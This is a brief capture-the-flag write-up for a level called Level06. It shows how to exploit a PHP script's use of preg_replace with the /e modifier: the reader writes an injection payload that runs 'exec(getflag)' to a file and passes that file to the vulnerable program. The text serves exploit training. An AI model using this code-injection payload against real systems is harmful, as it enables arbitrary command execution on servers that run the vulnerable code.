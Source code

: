 # Level06

We'll exploit `level06` script by using the unsecure call to `preg_replace` with the `/e` modifier. This modifier allows the replacement code to be executed as php code.
>`echo '[x {${exec(getflag)}}]' > /tmp/flag`
>`./level06 /tmp/flag`
